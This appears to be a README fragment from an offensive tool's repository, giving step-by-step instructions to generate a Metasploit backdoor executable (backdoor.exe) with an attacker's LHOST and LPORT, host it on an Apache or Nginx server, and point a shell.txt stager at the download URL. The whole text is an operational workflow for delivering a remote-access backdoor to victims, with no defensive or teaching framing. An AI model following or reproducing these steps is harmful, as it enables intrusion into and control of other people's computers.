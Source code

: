 <ol>

<li>Change `CH_me` with LHOST and LPORT in `msf.bash` script:</li>
        <pre><code>nano msf.bash</code></pre>
        
<li>Run the provided `msf.bash` script:</li>
        <pre><code>./msf.bash</code></pre>

<li>Start your Apache or Nginx web server.</li>
        <p>Choose one of the following commands based on your web server:</p>
        <p>For Apache:</p>
        <pre><code>sudo systemctl start apache2</code></pre>
        <p>For Nginx:</p>
        <pre><code>sudo systemctl start nginx</code></pre>

<li>Upload the file created by `msf.bash` to your web server's root directory (usually `/var/www/html`). You can use tools like `mv` to move the file:</li>
        <pre><code>mv backdoor.exe /var/www/html/</code></pre>

 <li>Open `shell.txt` :</li>
        <pre><code>sudo nano shell.txt</code></pre>

 <li>Edit the `Your_Web_Server_Ip` in `shell.txt` with your Apache or Nginx server's IP address.</li>
        <p>Replace `Your_Web_Server_Ip` with the IP address of your server, e.g.,</p>
        <pre><code>http://Your_Web_Server_Ip/backdoor.exe</code></pre>
</ol>
